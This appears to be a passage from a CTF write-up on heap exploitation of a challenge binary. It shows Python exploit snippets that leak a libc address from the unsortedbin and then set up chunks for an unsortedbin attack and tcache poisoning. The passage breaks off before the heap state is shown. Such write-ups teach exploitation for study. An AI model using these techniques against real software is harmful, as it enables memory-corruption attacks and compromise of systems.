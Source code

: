 ### Part 2: Leaking libc from unsortedbin
Using the code snippet below, we allocate a chunk too large to go into the tcache bins (larger than 0x410), which will put it into the unsortedbin when we free it. Also, we allocate a guard chunk to prevent top chunk consolidation:<br>
```
malloc(0, 0x420, b"A"*0x60)
malloc(1, 0x20, b"B")
free(0)
malloc(0, 0x420, b"A")

leak = puts(0)
leak = bytearray(leak)
leak[0] = 0x20
leak = u64(leak.ljust(8,b"\x00"))
libc_leak = leak
print("leak:", hex(leak))
libc = leak - 0x203b20
print("libc:", hex(libc))
```
The picture below shows the state of the heap for clarification:<br>
<img src="/assets/images/linux/heap/writeups/recipe_storage/recipe_gdb_1.png" style="width:100%; height:100%;" />
<br>
And the leak confirmed in the terminal:<br>
<img src="/assets/images/linux/heap/writeups/recipe_storage/recipe_terminal_1.png" style="width:100%; height:100%;" />
<br>

### Part 3: Attacking the unsorted bin
Next up we will overwrite the chunk0 ptr with a new and much larger chunk0 of size 0x840. We do not have to worry about the old chunk0 anymore, as it has served its purpose. The large chunk0 that we allocate will be used to attack the unsortedbin by putting a fake chunk into it. The next code snippet below, shows that we allocate a large chunk0. It also shows that we allocate some smaller 0x70 size chunks (remember 0x60+0x10 for metadata) that will be used for both tcache poisoning (later) as well as creating some more distance from the middle of the large chunk, so we can allocate some more smaller chunks that can contain fake size fields (next code snippet) at the right offsets, in order to trick **free** into putting the fake chunk in the unsortedbin. The reason behind this is that we can change the ptrs in the smaller chunks if there is a large overlapping fake chunk on the heap that we control:<br>
```
malloc(0, 0x840, b"A"*0x840)

malloc(1, 0x60, b"A")
malloc(2, 0x60, b"B")
malloc(3, 0x60, b"C")

```
The heap now looks like this:<br>